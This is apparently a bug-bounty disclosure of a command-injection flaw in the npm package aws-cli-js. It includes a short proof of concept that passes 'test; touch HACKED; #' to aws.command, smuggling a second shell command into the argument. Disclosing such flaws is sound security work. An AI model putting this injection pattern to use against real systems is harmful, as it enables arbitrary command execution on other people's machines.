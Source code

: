 # Overview

The issue occurs because a user input is formatted inside a command that will be executed without any check. The issue arises [here](https://github.com/Quobject/aws-cli-js/blob/master/src/index.ts#L28).

# Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
var awsCli = require("aws-cli-js");
var Options = awsCli.Options;
var Aws = awsCli.Aws;

var options = new Options("your key", "your key2", "your token", null);

var aws = new Aws(options);
aws.command("test; touch HACKED; #");
```

2. Check there aren't any files called `HACKED`.
3. Execute the following commands in another terminal:

```bash
npm i aws-cli-js # Install affected module
node poc.js #  Run the PoC
```

4. Recheck the files: now `HACKED` has been created.
